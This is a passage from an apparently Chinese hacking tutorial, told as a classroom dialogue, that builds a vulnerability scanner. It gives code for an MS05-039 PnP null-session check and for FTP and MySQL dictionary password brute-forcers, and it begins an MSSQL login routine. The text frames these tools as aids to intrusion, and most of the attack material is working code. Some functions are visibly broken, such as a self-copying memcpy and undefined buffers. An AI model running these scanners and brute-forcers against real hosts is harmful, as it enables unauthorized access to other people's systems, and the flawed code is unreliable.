“是不是非常简单啊，鉴于此漏洞过于陈旧，我们就不向工程里面添加了，下面我们来看一个更加经典的漏洞扫描例子：Win2000 的 PNP 溢出漏洞（MS05-039）扫描。Windows 2000 及以上版本的 PNP（Plug and Play）服务是通过 IPC$ 命名管道 + RPC 接口的形式向外提供服务的。也就是说，要访问远程主机上的 PNP 服务，首先要通过 TCP 139 或 445 端口与目标主机建立 IPC 空连接，进而获取 PNP 服务进程中创建的命名管道“Browser”的客户端句柄。获取了管道句柄后，再通过该命名管道与 PNP 服务进程中的 RPC 接口进行通信，完成对服务的访问。在对 PNP 漏洞进行攻击的时候通常采用这一通信流程，在漏洞扫描的时候也可以按照这一步骤进行。而我们在访问服务的时候，如果发送的数据为一个特定的字串时，补丁前后返回的数据包存在一个字节的差异，通过判断这一个字节的差异就可以准确地判断出是否存在 PNP 漏洞。在这一系列的工作中，前面建立 IPC 连接、获得客户端句柄、通过 RPC 进行服务访问，都可以通过文档的查阅来完成，关键在于我们访问服务的时候发送什么字串才能检测出补丁前后的差异。幸好网络上有牛人将这个特征串从 MACFEE 公布的扫描工具中提取了出来，我们这里就拿来用上了。既然最后一个问题偷懒解决了，那么就可以再深入分析一下各个环节。首先是如何建立 IPC 连接，这里为大家提供一个函数 WNetAddConnection2，它可以轻松为我们建立 IPC 连接。”

```cpp
原型

DWORD WNetAddConnection2(
    LPNETRESOURCE lpNetResource,
    LPCTSTR lpPassword,
    LPCTSTR lpUsername,
    DWORD dwFlags
);
```

这个函数的功能是和网络上的资源建立连接。lpNetResource 是一个指向 NETRESOURCE 结构的指针，而 NETRESOURCE 结构中定义了连接的详细信息，其中包括网络资源、本地设备以及网络资源的提供者。其中，NETRESOURCE 定义如下：

```cpp
typedef struct NETRESOURCE{
    DWORD dwScope;
    DWORD dwType;
    DWORD dwDisplayType;
    DWORD dwUsage;
    LPCTSTR lpLocalName;
    LPCTSTR lpRemoteName;
    LPCTSTR lpComment;
    LPCTSTR lpProvider;
} NETRESOURCE;
```

需要特别注意的就是 lpRemoteName，这个代表了连接对象的字符串，其格式是这样的：`\\\\IP地址\\pipe`。lpPassword 为连接网络资源的密码，lpUsername 为连接网络资源的用户名，如果是建立空连接的话，那么这两样都可以置为 NULL。dwFlags 为连接的标志，可以置为 0。

“其次是获取 PNP 服务进程中创建的命名管道‘Browser’的客户端句柄，可以使用我们比较熟悉的 API 函数 CreateFile，不要以为它只能用来操作本地文件，它还可以操作网络上的文件以及管道哦。接下来我们就可以使用得到的句柄来进行 RPC 通信了，不过为了访问远程的 PNP 服务，我们需要和对方协商一下，将 PNP 服务绑定到接口上来，而 PNP 服务的 SSID 号为 8d9f4e40-a03d-11ce-8f69-08003e30051b，将其通过封装，再调用 TransactNamedPipe 来进行 PNP 服务的绑定，TransactNamedPipe 定义如下。”

```cpp
BOOL TransactNamedPipe(
    HANDLE hNamedPipe,
    PVOID lpInBuffer,
    DWORD nInBufferSize,
    LPVOID lpOutBuffer,
    DWORD nOutBufferSize,
    LPDWORD lpBytesRead,
    ...
);
```

```cpp
LPVOID lParam = (LPVOID)&Param;
```

“该函数的功能是将命名管道中的数据读取到网络上或者是将网络上的数据写入到命名管道中。最后就是对 PNP 服务进行访问了，通过 TransactNamedPipe 发送特定的字符串，再查看其返回的值，从而完成对 PNP 漏洞的扫描。现在流程清楚了吧，总结一下：WNetAddConnection2 建立 IPC 连接 -> CreateFile 获取 ‘Browser’ 的客户端句柄 -> TransactNamedPipe 第一次，绑定服务 -> TransactNamedPipe 第二次，发送特定的字串 -> 验证返回信息。”

“原理清楚了，现在我们把 PNP 漏洞扫描整合到上一个漏洞扫描程序中，继续完善这个程序。首先在界面上再添加一个 ‘Check Box’ 按钮，用来表示 PNP 漏洞扫描的选中情况，在消息响应中添加一段开启 PNP 漏洞扫描的子线程的代码。”

```cpp
if (m_bPnp)
{
    CreateThread(NULL, 0, PnpVulScanThread, &Param, 0, NULL);
}
```

“根据前面的分析，再来实现 PNP 漏洞扫描的子线程。”

```cpp
DWORD WINAPI PnpVulScanThread(LPVOID lpParam)
{
    THREADPARAM Param = {0};
    MoveMemory(&Param, lpParam, sizeof(Param));
    in_addr addr;
    addr.s_un.S_addr = Param.dwIp;
    char *szIp = inet_ntoa(addr);
    NETRESOURCE nr;
    char unc[MAX_PATH];
    char szPipe[MAX_PATH];
    HANDLE hFile;

    snprintf(unc, sizeof(unc), "\\\\%s\\pipe", szIp);
    unc[sizeof(unc)-1] = '\0';
    nr.dwType = RESOURCETYPE_ANY;
    nr.lpLocalName = NULL;
    nr.lpRemoteName = unc;
    nr.lpProvider = NULL;

    // 第一步：建立IPC空连接
    WNetAddConnection2(&nr);
    snprintf(szPipe, sizeof(szPipe), "\\\\%s\\pipe\\browser", szIp);

    // 第二步：获取“Browser”客户端句柄
    hFile = CreateFile(szPipe, GENERIC_READ|GENERIC_WRITE, 0, NULL,
        OPEN_EXISTING, 0, NULL);

    // 绑定PNP服务
    BindRpcInterface(hFile, "8d9f4e40-a03d-11ce-8f69-08003e30051b", "1.0");

    // 进行PNP漏洞扫描
    if (ScanPNP(hFile))
    {
        // 有漏洞
        // 获取远程的信息
        TCHAR szMsg[MAX_PATH] = {0};
        wsprintf(szMsg, "%s存在PNP(ms05-039)溢出漏洞!", szIp);
        Param.pDlg->m_BackMsgList.InsertItem(0, szMsg);
    }
    return 0;
}
```

“绑定 PNP 服务的函数 BindRpcInterface 实现如下。”

```cpp
int BindRpcInterface(HANDLE PIPE, char *Interface, char *InterfaceVer)
{
    BYTE RPCBind[0x48] = {
        0x05,0x00,0x0B,0x03,0x10,0x00,0x00,0x00,0x48,0x00,0x00,0x00,0x01,0x00,0x00,0x00,
        0xB8,0x10,0xB8,0x10,0x00,0x00,0x00,0x00,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,
        0x6A,0x28,0x19,0x39,0x0C,0xB1,0x00,0x01,0x09,0xA8,0x48,0x0C,0x00,0x4F,0xD9,0x2E,
        0xF5,0x00,0x00,0x00,0x00,0x4C,0x5D,0x88,0xA8,0xEB,0x1C,0xC9,0x11,0x9F,0xE8,0x08,
        0x00,0x2B,0x10,0x48,0x60,0x02,0x00,0x00,0x00
    };
    BYTE buffer[1000];
    DWORD dw;
    Struct _RPCBIND RPCBind;
    memcpy(&RPCBind, &RPCBind, sizeof(RPCBind));

    GUIDToString((unsigned char *)&Interface, &RPCBindInterfaceUUID);
    GUIDToString(&RPCBindInterfaceUUID, (unsigned char *)&Interface);
    RPCBindInterfaceVerMaj = atoi(&InterfaceVer[0]);
    RPCBindInterfaceVerMin = atoi(&InterfaceVer[2]);
    if (TransactNamedPipe(PIPE, RPCBind, sizeof(RPCBind), rbuf,
        sizeof(rbuf), &dw, NULL))
    {
        return 0;
    }
}
```

“最后进行漏洞扫描的代码如下。”

```cpp
BOOL ScanPNP(HANDLE PipeHandle)
{
    char szScan[] =
        "\x05\x00\x0b\x03\x10\x00\x00\x00\xf8\x00\x00\x00\x01"
        "\x00\x00\x00\xe0\x00\x00\x00\x10\x00\x00\x00"
        "\x00\x00\x00\x00\x00\x3d\x00\x00\x00\x50\x00\x03"
        "\x00\x49\x00\x5c\x00\x56\x00\x45\x00\x4e\x00\x5f\x00"
        "\x31\x00\x30\x00\x31\x00\x30\x00\x34\x00\x4d\x00\x55"
        "\x00\x56\x00\x5f\x00\x30\x00\x30\x00\x39\x00"
        "\x26\x00\x53\x00\x55\x00\x42\x00\x53\x00\x59\x00\x53"
        "\x00\x5f\x00\x32\x00\x31\x00\x34\x00\x30\x00"
        "\x41\x00\x30\x00\x30\x00\x26\x00\x52\x00\x45\x00\x56"
        "\x00\x20\x00\x3a\x00\x00\x00\x03\x00\x26\x00"
        "\x32\x00\x36\x00\x37\x00\x34\x00\x36\x00\x31\x00\x36"
        "\x00\x41\x00\x26\x00\x30\x00\x26\x00\x35\x00\x30\x00"
        "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
        "\x00\x00\x28\x00\x00\x00\x00\x00\x00\x00\x00"
        "\x00\x00\x7f\xe0\x00\x00\x00\x00\x01\x00\x00"
        "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
        "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
        "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
        "\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00";

    BYTE rbuf[0x100] = {0};
    DWORD dw;
    if (!TransactNamedPipe(PipeHandle, szScan, sizeof(szScan), rbuf, sizeof(rbuf), &dw, NULL))
    {
        printf("Cann't get scan data.\n");
        return FALSE;
    }
    if (dw != 0x48)
    {
        return FALSE;
    }
    if (rbuf[0x44] != 0x0b)    // 0b = 需要攻击的地方，以便对特定的漏洞进行扫描
    {
        return FALSE;
    }
    // 有PNP漏洞
    return TRUE;
}
```

“看到这个变量 `char szScan[]` 了吗？哈哈，它的值就是高手从 MACFEE 的扫描工具提取出来的哦。老规矩，测试一下可用性，还是以我们的目标机 192.168.15.31 来作测试，如图 3-41。”

“还是成功了。最后来看有第三种溢出漏洞的扫描方法：溢出数据包破坏测试法。该方法的原理就是直接构造溢出数据请求发送给测试机，如果对方有漏洞，必定会造成溢出，出现一定异常，可以通过是否出现异常来判断主机有无漏洞。这种方法的优点是探测的结果很精确，基本不会出现误报的情况。而缺点也很明显，就是可能会造成对方服务的崩溃。比如对于 IIS，崩溃后就会无法连接对方的网页了。不过还好，IIS 崩溃后，会检测到并自动重启。而对于像 Serv-U 一类的，崩溃后不会自动重启，需要对方管理员重新启动后才能使用。所以这个方法可以用在对自己主机或网络作准确的安全评估，对我们入侵意义不是非常大，因此我们可以忽略此种方法。下面我们进入下一个环节，弱口令扫描。”

### 3.2.3 弱口令扫描

“密码的强制猜解可以说是最原始、最野蛮的攻击手段，许多人对它嗤之以鼻，因为表面的技术含量不高，然而却往往成为‘黑客’最后的杀手锏。其原理千古不变而至今仍屹立不倒，实在是‘黑客’们居家旅行、去病健身、杀人灭口的必备良药！”

“请问哪里可以买到？”

“哈哈，这位朋友问得好，在下现在刚好有几款，要不要试一试？”老师也搞笑道，“密码的穷举算是强制猜解最霸道的一种，一般这种方法是在无路可走的情况下才干的事；比这个稍微聪明有效的方法就是带字典的密码攻击，因为字典可以随意构造，那么就给攻击者留下了较大的空间，下面我们就以带字典的密码攻击来进行演练，也因此本节的题目叫做‘弱口令扫描’。”

“字典就是我手里的新华字典吗？”

“晕~~”老师差点一头从讲台上栽了下来，“我们这里所说的字典是指由相关字符组成的密码集合，网络上也可以下载到字典的生成工具，它可以按照我们需要的构造方法来构造密码，比如前三位是字母，后三位是数字等。还是先来谈谈弱口令扫描的流程吧。如果我们要带字典攻击的话，就要先从字典里把密码读出来，然后根据攻击的服务所特定的密码验证协议填充发送的数据包，并发送到服务端，最后根据返回的状态码来判断是否登录成功，从而实现密码的验证。弱口令扫描就是如此简单，所以才有人对此不屑一顾，唯一的困难可能是对服务进行密码验证的方式、协议进行分析，不过值得庆幸的是凡是比较流行的服务采用的协议都比较公开，比如 FTP。即使协议不公开，对方也可能为我们提供 API 来进行密码验证，比如 MYSQL 和 MSSQL。因此，进行弱口令扫描的第一步就是对用户、密码验证的协议或者方式进行分析。好了，废话少说，开工。首先，我们来完成对 FTP 弱口令的扫描。”

### 一、FTP弱口令的扫描

“首先，我们需要对 FTP 进行登录的协议进行研究。FTP 的全名为 File Transfer Protocol，翻译为中文就是文件传送协议，它是为文件的传输而专门设计的协议，它是一个公开的协议，如 Serv-U、wuFtp、IIS 自带的 FTP 等都是使用该协议，因此都可以使用 Windows 自带的命令行工具进行连接并进行文件传送。”

“那就是说我们的 FTP 弱口令扫描是通用的哦。”

“是的，不过这都是 FTP 本身的功劳，下面来看 FTP 是如何登录的，还是利用嗅探工具把登录的数据包都抓下来进行研究，事实就是最好的证明。我们使用 Windows 自带的 ftp 工具来进行连接，然后对其数据包进行捕获，首先使用 IRIS 进行抓包，然后在命令行下输入 `ftp 211.83.158.13`，接下来输入用户名 `test`，再输入密码 `test`，显示登录成功，如图 3-42。”

“赶紧来看看 IRIS 捕获到的数据包。”

图3-42

“这是一次完整的 FTP 登录过程，1、3、5 条信息为 FTP 服务器返回的信息；2、4 为客户端（也就是我们）发送的命令，简单清晰是 FTP 协议的特点。我们只要将用户前面加上‘USER’发送过去，密码前面加上‘PASS’发送到服务端进行验证就可以了，比 HTTP 协议简单多了，现在就剩下如何判断返回的状态了。”小菜们对这类分析轻车熟路了。

“分析得很正确，从上面的例子我们可以看到如果状态码为‘230’的话，那么就表示用户登录成功，而登录失败的状态码为‘503’。”老师说道，“最后的工作就是将字典加入进来，从而实现口令的猜解。”

“为了快捷地使用字典，我们可以先把字典文件里的用户名或者密码解析出来，存放到链表中，然后遍历链表，将用户名和密码分别填充到 USER 或者 PASS 中，发送到服务器去进行验证。”

“链表，听到链表头就大了。”小菜们都皱起了眉头。

“既然如此，我为大家介绍一个新的 MFC 的类‘CList’，使用它我们就不用理会链表究竟是如何构造的了，我们只要知道它的几个函数就轻松地进行数据的添加、查找、删除。”

“真的有这么神奇吗？那快给我们说说吧。”小菜们一听到有便宜可捞便迫不及待了。

“好，先来熟悉一下这位仁兄‘CList’，CList 是一个模板类，其定义在 afxtempl.h 中。”

```cpp
template<class TYPE, class ARG_TYPE = const TYPE&>
class CList : public CObject
```

“这是什么啊，一点儿也看不懂，什么是模板类啊？”小菜一看到陌生的东西就开始发慌。

“简单来说，模板类就是通用的类的意思，它可以提高代码的可重用性，‘template’表示该类为模板类，尖括号里面为模板的参数，只要我们使用不同的模板参数，那么生成的就是不同类型的链表哦。比如我们这样来定义一个链表 `CList<int,int> myList;`，那么这个就是一个 int 类型的链表。如果定义为 `CList<CString,CString&> myList;`，那么这就是一个 CString 类型的链表。”

# 第三章 端口与漏洞扫描编程

“还真的有点神奇，可以随处变化。”小菜们觉得有点不可思议。

“定义了一个 CList 的变量，我们就可以使用 CList 提供的成员函数来进行数据的添加和修改等等操作了，下面就是几个我们将会使用到的 CList 的成员函数的说明。”

```
CList::AddHead
原型：
POSITION AddHead(
    ARG_TYPE newElement
);
```

其参数为添加的新元素，为任意类型，和定义 CList 变量的类型相同，比如我们定义了一个 int 类型的链表，那么该参数的类型就是 int。该函数的功能为添加一个新元素到链表中。

```
CList::RemoveAll
原型：
void RemoveAll();
```

功能为删除链表中的所有元素。

```
CList::GetHeadPosition
原型：
POSITION GetHeadPosition() const;
```

功能为获取首元素的位置，从而为遍历所有的元素提供链表头位置。

```
CList::GetNext
原型：
TYPE& GetNext(
    POSITION& rPosition
);
```

功能为获取下一个元素的位置，并返回当前位置的值，和 GetHeadPosition 配合使用可以轻松地遍历链表。

“好了，现在来看看如何使用 CList 存储字典中的用户名和密码，首先声明存储在链表中的类型。”

```
/*
用户字典/密码字典 放入到链表中的结构
*/
typedef struct tagUserPassDic
{
    union
    {
        char szUser[20];
        char szPass[20];
    };
} UserPassDic, *PUserPassDic;
```

“然后定义 CList 变量。”

```
CList<UserPassDic, UserPassDic> UserList;
// 打开字典文件
FILE *DicFile = fopen(strUserDic, "r");
// 循环读出字典中的用户名
UserPassDic dic;
while (fgets(dic.szUser, 20, DicFile))
{
    if (dic.szUser[strlen(dic.szUser) - 1] == (char)0x0a)
    {
        dic.szUser[strlen(dic.szUser) - 1] = '\0';
    }
    UserList.AddHead(dic);
}
```

“现在字典中所有的用户名已经保存到了链表当中，如果要想遍历链表中的元素，可以这样。”

```
POSITION pos = UserList.GetHeadPosition();
for (int i = 0; i < UserList.GetCount(); i++)
{
    UserPassDic UserDic = UserList.GetNext(pos);
}
```

“定义看起来复杂，但是使用起来还真方便。”小菜们说道。

“好了，关键问题已经解决，现在就剩下如何编程实现了，还是老样子，我们将这个漏洞添加到之前的‘VulScan’工程中。在界面上添加一个 FTP 弱口令的‘Check Box’，然后在消息响应函数中添加开启 FTP 弱口令扫描线程的代码。”

```cpp
if (m_bFtpPass)
{
    CreateThread(NULL, 0, FtpPassVulScanThread, &Param, 0, NULL);
}
```

“为了使用方便，我们将从字典中获取用户或者密码并添加到链表的代码放置到一个函数中，其定义如下。”

```cpp
/*
    创建字典链表函数
*/
BOOL CreateDicList(CList<UserPassDic, UserPassDic> *pDicList, FILE *DicFile)
{
    UserPassDic dic;
    while (fgets(dic.szUser, 20, DicFile))
    {
        if (dic.szUser[strlen(dic.szUser) - 1] == (char)0x0a)
        {
            dic.szUser[strlen(dic.szUser) - 1] = '\0';
        }
        pDicList->AddHead(dic);
    }
    return TRUE;
}
```

“其参数 pDicList 是一个指向 CList<UserPassDic, UserPassDic> 类型的指针，DicFile 为打开字典的文件流指针。准备工作就完成了，其工作流程是：得到用户、密码字典路径 -> 打开用户、密码字典 -> 创建用户、密码字典链表 -> 遍历用户、密码字典链表连接 FTP 服务器，并发送用户、密码 -> 检测返回状态。下面就是 FTP 弱口令扫描的线程函数。”

```cpp
DWORD WINAPI FtpPassVulScanThread(LPVOID lpParam)
{
    THREADPARAM Param = {0};
    MoveMemory(&Param, lpParam, sizeof(Param));
    FILE *pUserFile = NULL;
    FILE *pPassFile = NULL;
    // 字典文件必须放在程序的当前目录下
    TCHAR szCurPath[MAX_PATH];
    GetCurrentDirectory(MAX_PATH, szCurPath);
    CString strUserDicPath(szCurPath);
    strUserDicPath += _T("\\FtpUserDic.dic");
    CString strPassDicPath(szCurPath);
    strPassDicPath += _T("\\FtpPassDic.dic");
    // 读取用户名字典
    CList<UserPassDic, UserPassDic> UserList;
    if ((pUserFile = fopen(strUserDicPath, "r")) == NULL)
    {
        return 0;
    }
    CreateDicList(&UserList, pUserFile);
    fclose(pUserFile);
    // 读取密码字典
    CList<UserPassDic, UserPassDic> PassList;
    if ((pPassFile = fopen(strPassDicPath, "r")) == NULL)
    {
        return 0;
    }
    CreateDicList(&PassList, pPassFile);
    fclose(pPassFile);
    SOCKET sock;
    SOCKADDR_IN sin;
    int flag;
    char szRecvBuff[1024] = {0};
    in_addr addr;
    addr.S_un.S_addr = htonl(Param.dwIp);
    char *szIp = inet_ntoa(addr);
    char *pPassFlag = "230";      // 密码成功标志
    char *pUserFlag = "331";      // 用户成功标志
    // 开始遍历用户名和密码字典，并进行探测

    POSITION pos = UserList.GetHeadPosition();
    for (int i = 0; i < UserList.GetCount(); i++)
    {
        UserPassDic UserDic = UserList.GetNext(pos);
        POSITION pos_1 = PassList.GetHeadPosition();
        for (int i = 0; i < PassList.GetCount(); i++)
        {
            UserPassDic PassDic = PassList.GetNext(pos_1);
            sock = socket(AF_INET, SOCK_STREAM, 0);
            if (sock == INVALID_SOCKET)
            {
                return 0;
            }

            memset(&sin, 0, sizeof(sin));
            sin.sin_family = AF_INET;
            sin.sin_port = htons(21);
            sin.sin_addr.s_addr = htonl(Param.dwIp);
            flag = connect(sock, (struct sockaddr *)&sin, sizeof(sin));
            if (flag == SOCKET_ERROR)
            {
                closesocket(sock);
                return 0;
            }

            // 接收 banner 信息
            flag = recv(sock, szRecvBuff, sizeof(szRecvBuff), 0);
            if (flag == SOCKET_ERROR)
            {
                closesocket(sock);
                return 0;
            }

            char szUserCmd[48] = {0};
            wsprintf(szUserCmd, "USER %s\r\n", UserDic.szUser);
            // 发送用户名
            flag = send(sock, szUserCmd, strlen(szUserCmd), 0);
            if (flag == SOCKET_ERROR)
            {
                closesocket(sock);
                return 0;
            }

            memset(szRecvBuff, 0, sizeof(szRecvBuff));
            flag = recv(sock, szRecvBuff, sizeof(szRecvBuff), 0);
            if (flag == SOCKET_ERROR)
            {
                closesocket(sock);
                return 0;
            }

            if (strlen(szRecvBuff) == 0)
            {
                closesocket(sock);
                return 0;
            }

            if (strstr(szRecvBuff, pUserFlag) == NULL)
            {
                closesocket(sock);
                return 0;
            }

            char szPassCmd[48] = {0};
            wsprintf(szPassCmd, "PASS %s\r\n", PassDic.szPass);
            // 发送密码
            flag = send(sock, szPassCmd, strlen(szPassCmd), 0);
            if (flag == SOCKET_ERROR)
            {
                closesocket(sock);
                return 0;
            }

            memset(szRecvBuff, 0, sizeof(szRecvBuff));
            flag = recv(sock, szRecvBuff, sizeof(szRecvBuff), 0);
            if (flag == SOCKET_ERROR)
            {
                closesocket(sock);
                return 0;
            }

            if (strstr(szRecvBuff, pPassFlag))
            {
                // 发现密码
                TCHAR szMsg[MAX_PATH] = {0};
                wsprintf(szMsg, "%s 存在FTP弱密码:%s:%s",
                    szIp, UserDic.szUser, PassDic.szPass);
                Param.pDlg->m_BackMsgList.InsertItem(0, szMsg);
                ...
            }

            closesocket(sock);
            ...
        }
    }

    return 0;
}
```

“测试一下效果，‘Ctrl + F5’运行程序，输入 IP 地址 192.168.15.20，开始扫描，等待结果吧。”

小菜们听老师这么一说，都瞪大了眼睛等待结果的出现，半晌后发现一点动静也没有，只有再次瞪大了眼睛在老师的脸上找。

“sorry，原来忘记构造字典文件了。”老师一脸抱歉，“我们使用记事本构造几个用户名和密码并存成 FtpUserDic.dic 和 FtpPassDic.dic 中，放到工程文件目录下。”

“不对，不对，应该放到和 exe 一个目录下吧，我们使用的是 GetCurrentDirectory() 来获得路径的哦。”小菜 A 马上站起来纠正老师的错误。

“呵呵，还是比较细心，不过这里的情况不一样哦，如果平时双击 exe 文件并执行，那么得到的当前目录是和 exe 同一个目录，然而我们是在 VC2003 下启动的进程，那么 VC2003 会把程序的当前目录修改为工程的目录。”

“哦，这样的呀？”

“还是让实践来说话吧，有了字典文件后，再点击‘确定’按钮开始扫描弱口令，如图 3-43。”

“扫描出不少的密码哦，由于 anonymous 可以使用任何的密码，因此出现了多个密码，还有一个 abc:abc 的用户密码哦。”

“这些密码是不是真的啊？”

“怀疑精神值得嘉奖，我们使用 Windows 自带的客户端来验证一下，如图 3-44。”

“果然正确，看来 CList 还真的没有把我们的字典搞错呢。”小菜们说道。

“其实呢！本来就不会错……”

## 二、MYSQL 弱口令的扫描

“轻松解决了 FTP 的弱口令扫描，现在乘胜追击，进行 MYSQL 的弱口令扫描。MYSQL 是一种数据库，它和 PHP 是最好的搭档，应用非常广泛，如果能够破解出其 root 密码的话可以做很多意想不到的事情哦。”

“Windows 有没有自带 MYSQL 连接的工具呢？”小菜问道。

“当然……不会，毕竟 MYSQL 是第三方软件，不过只要安装了 MYSQL 后在其安装目录的 bin 目录下就会有一个叫做 mysql.exe 的工具，它就是用来连接 mysql 的官方工具，我们来试试，首先在命令行下来到 mysql 安装目录的 bin 目录下，然后输入 **mysql -h 127.0.0.1 -u root -p**，然后回车，此时会提示你输入密码，输入后就进入了 MYSQL 数据库的管理台，如图 3-45。”

“mysql.exe 这个命令行工具的功能异常强大，使用 **mysql --help** 可以得到 mysql 的命令行选项，刚才我们就使用了其中三个，‘-h’表示连接的主机，刚才我们连接的主机是 127.0.0.1，‘-u’表示连接的用户名，我们使用的是最高权限的 root 账号，‘-p’表示需要提供连接的密码，关于该工具的描述就讲到这里，下面还是来想办法如何通过编程的方式来实现 mysql 的登录。”

“这些都是什么数据包啊，面目全非，只有一个‘root’还好像看得懂，老师，快给我们说说这是什么编码形成的数据包啊？”

“这个啊，我也不知道啊！”

“啊？那怎么扫描啊？”

“没有关系，因为 MYSQL 为我们提供了二次开发的 API 函数，而这些 API 函数中就有实现 MYSQL 连接的函数。”

“原来是这样，那么我们到哪里去找这些函数的定义，以及如何使用这些函数呢？”

“首先我们得把 MYSQL 提供的头文件以及 lib 文件找出来供我们使用，它们分别位于 mysql 安装目录下的 include 和 lib 目录下。”

小菜们噼里啪啦就开始翻看自己的 mysql 目录。

“我怎么没有这两个目录呢？”小菜最终还是没有找到老师所说的那两个目录。

“那是因为你在安装 MYSQL 的时候没有安装 MYSQL 的开发包，如果你此时已经安装了 MYSQL，那么再运行安装程序，选择‘modify’选项，‘next’，就会出现了，如图 3-46。”

“将‘C Include File/lib File’选择成‘The Feature will be installed on the local hard drive’，然后一路‘next’就 OK 了。”

“啊啊，果然出现了。”

“资源都准备齐全了，现在就是编写程序了，我们还是使用‘VulScan’工程，现在将 libmysql.dll 以及 libmysql.lib 拷贝到‘VulScan’工程目录下，并把 mysql 的 lib 目录也拷贝到‘VulScan’工程目录下，在 stdafx.h 中加入。”

```c
#include "lib/mysql.h"
#pragma comment(lib, "libmysql.lib")
```

“现在我们就可以随意地使用 mysql 为我们提供的函数了，如果只是登录 mysql，那么我们只会使用其中两个函数。”

```c
mysql_init
原型：
MYSQL *mysql_init(MYSQL *mysql)
```

该函数初始化 mysql 环境，必须使用。

```c
mysql_real_connect
原型：
MYSQL *mysql_real_connect(MYSQL *mysql, const char *host,
const char *user, const char *passwd, const char *db, unsigned int port, const char *unix_socket, unsigned int client_flag)
```

其功能是连接远程服务器，如果连接不成功返回 NULL，我们只需要关心前面四个参数，mysql：为 mysql_init 初始化好的指针。host：服务器地址。user：用户名。passwd：密码。db：连接的数据库名称。port：连接的端口，MYSQL 默认的端口是 3306。

```c
mysql_close
```

这个函数就不用多说了，关闭 mysql 连接。

“讲到这里相信大家都应该知道如何进行 mysql 的弱口令扫描了吧，谁来总结一下。”老师鼓励大家自己分析。

“我来试试。”看到老师鼓励的眼光，小菜 C 晃晃地站起来。“调用 mysql_init 初始化 mysql 环境 -> 得到用户、密码字典路径 -> 打开用户、密码字典 -> 创建用户、密码字典链表 -> 遍历用户、密码字典链表调用 mysql_real_connect 连接 mysql 服务器 -> 检测返回状态。是不是这样啊？”

“说得很好呀，流程清楚了，我们把 FTP 的代码拿一部分过来用，代码就出来了哦。”

```c
DWORD WINAPI MysqlPassVulScanThread(LPVOID lpParam)
{
    THREADPARAM Param = {0};
    MoveMemory(&Param, lpParam, sizeof(Param));
    FILE *pUserFile = NULL;
    FILE *pPassFile = NULL;
    TCHAR szCurPath[MAX_PATH];
    GetCurrentDirectory(MAX_PATH, szCurPath);
    CString strUserDicPath(szCurPath);
``````cpp
strUserDicPath += _T("\\MysqlUserDic.dic");
CString strPassDicPath(szCurPath);
strPassDicPath += _T("\\MysqlPassDic.dic");
// 读取用户字典
CList<UserPassDic, UserPassDic> UserList;
if ((pUserFile = _tfopen(strUserDicPath, _T("r"))) == NULL)
{
    return 0;
}

CreateDicList(&UserList, pUserFile);
fclose(pUserFile);

// 读取密码字典
CList<UserPassDic, UserPassDic> PassList;
if ((pPassFile = _tfopen(strPassDicPath, _T("r"))) == NULL)
{
    return 0;
}

CreateDicList(&PassList, pPassFile);
fclose(pPassFile);

addr_t addr;
addr.S_un.S_addr = htonl(Param.dwIp);
char *szIp = inet_ntoa(addr);

MYSQL *MysqlSock, mysql;
mysql_init(&mysql);

POSITION pos = UserList.GetHeadPosition();
for (int i = 0; i < UserList.GetCount(); i++)
{
    UserPassDic UserDic = UserList.GetNext(pos);
    POSITION pos_1 = PassList.GetHeadPosition();
    for (int j = 0; j < PassList.GetCount(); j++)
    {
        UserPassDic PassDic = PassList.GetNext(pos_1);
        if ((MysqlSock = mysql_real_connect(&mysql, szIp, UserDic.szUser, PassDic.szPass, "mysql", 3306, NULL, 0)))
        {
            // 发现密码
            TCHAR szMsg[MAX_PATH] = {0};
            wsprintf(szMsg, "%s 存在 MYSQL 弱密码，%s:%s", szIp, UserDic.szUser, PassDic.szPass);
            Param.pDlg->m_BackMsgList.InsertItem(0, szMsg);
            mysql_close(MysqlSock);
        }
    }
}
return 0;
```

“执行看看效果，成功扫描出了弱口令，如图 3-47！”


#### 三、MSSQL 弱口令的扫描

“和 MySQL 一样，一个非常重要的数据库是 MSSQL——微软的嘛，肯定重要了！MSSQL 的用户登录也是经过把密码加密后再传送的，因此就不能用抓包的方法来分析了，不过 MSSQL 可是微软出品的东西，因此在 VC 安装的时候就已经把 MSSQL 的开发包安装上了，我们只要包含相应的头文件就可以使用 API 来操作 MSSQL 了。人在屋檐下，不得不低头。为了连接 MSSQL，我们需要严格按照微软提供的方法，不过还真是有点繁杂哦，我们一起来看看连接 MSSQL 的步骤。”

为了使用 SQL 相关的函数，我们必须包含 Sql.h、Sqlext.h、Sqltypes.h。

- 调用 SQLAllocHandle 并将其参数 HandleType 填充为 SQL_HANDLE_ENV 来初始化 ODBC 和分配一个环境句柄。
- 调用 SQLSetEnvAttr 并将其参数 Attribute 设置为 SQL_ATTR_ODBC_VERSION，而 ValuePtr 设置为 SQL_OV_ODBC3 来表明程序将使用的函数为 ODBC 3.x 版本格式。
- 调用 SQLAllocHandle 并将其参数 HandleType 填充为 SQL_HANDLE_DBC 来分配一个连接句柄。

现在准备工作终于做好了，调用 SQLDriverConnect 来向 SQL 服务器发起连接，该函数根据连接字符串来进行连接，连接字符串的格式可以是下面两种格式之一：“DSN=dsn名称;UID=用户名;PWD=密码;”、“DRIVER={SQL Server};SERVER=服务器地址;UID=用户名;PWD=密码;”。

如果 SQLDriverConnect 返回值为 SQL_SUCCESS 或者 SQL_SUCCESS_WITH_INFO，那么就表示连接成功。

最后就是清理工作，调用 SQLDisconnect 关闭连接，调用两次 SQLFreeHandle 将环境句柄和连接句柄释放。

“这就是一次连接 MSSQL 并登录的步骤，步骤比较多，但是思路还是比较清晰，也就是分配句柄然后调用 SQLDriverConnect 来进行连接。”

“还真够麻烦的，直接像 MYSQL 那样一个函数就搞定多好呀。”小菜们说道。

“没有关系，表示数据库连接的伪代码如下。”

```c
// ...
SQLHANDLE henv;
SQLHDBC hdbc;
SQLRETURN retcode; // ODBC API 运行返回值
char szConnStr[MAX_PATH] = {0};
char szBuffer[1025];
SWORD swStrLen;

SQLAllocHandle(SQL_HANDLE_ENV, SQL_NULL_HANDLE, &henv);
SQLSetEnvAttr(henv, SQL_ATTR_ODBC_VERSION, (SQLPOINTER)
    SQL_OV_ODBC3, SQL_IS_INTEGER);
